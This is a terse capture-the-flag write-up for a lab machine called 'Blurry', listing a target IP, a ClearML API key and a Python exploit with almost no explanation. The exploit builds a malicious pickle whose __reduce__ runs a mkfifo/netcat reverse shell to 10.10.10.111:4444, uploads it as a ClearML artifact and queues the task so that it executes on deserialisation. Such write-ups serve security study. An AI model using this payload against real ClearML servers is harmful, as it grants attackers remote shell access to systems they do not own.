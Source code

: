 ```yaml
---
description: Linux | medium
---
```


# Blurry

10.129.3.154

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

clef api : HGLEWII6D6U1Q245DJQL

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='pickle', tags=["review"], task_type=Task.TaskTypes.data_processing)

class Pickle:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.111 4444 >/tmp/f"
        return os.system, (cmd,)

rng_name = base64.b64encode(str(time.time()).encode()).decode()
task.upload_artifact(name=rng_name, artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```
